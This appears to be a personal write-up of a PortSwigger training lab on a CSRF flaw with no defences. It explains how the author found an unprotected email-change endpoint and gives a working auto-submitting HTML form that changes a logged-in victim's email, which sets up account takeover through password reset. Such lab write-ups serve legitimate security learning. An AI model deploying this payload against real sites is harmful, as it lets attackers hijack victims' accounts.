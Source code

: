 # Lab: CSRF vulnerability with no defenses

- link to lab: https://portswigger.net/web-security/csrf/lab-no-defenses

## Steps and deep understanding

- In this laboratory, I found a "change email address" function which is vulnerable to CSRF. There is no protection against this vulnerability, such as a CSRF token or anything else.

- The mindset is: let's try to craft a malicious webpage and send it to our victim. Because if our victim is logged into the page, our malicious link can instantly submit an email change to a known address provided by you.

- What is the purpose of this attack? We can then perform a password change using our email address, which was changed on the victim's account when they clicked on the malicious link.

## Looking into the vulnerable function

- I logged into the platform looking for the change email address function. Then I inspect for discover what is the endpoint responsible:

![alt text](img/image.png)
![alt text](img/image-1.png)

- The endpoint is `/my-account/change-email`

## Crafting the HTML to make the CSRF

- Let's create our html form, store and send it to the victim using our exploit server

This code snippet consists of HTML and JavaScript.

The HTML part is a form that is set to submit a POST request to a specified URL:

```
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="email@example.com"> // the value contains your desired email to send in the request body
</form>
<script>
        document.forms[0].submit(); // auto submit the form
</script>
```

- and.. Finally!

![alt text](img/image-2.png)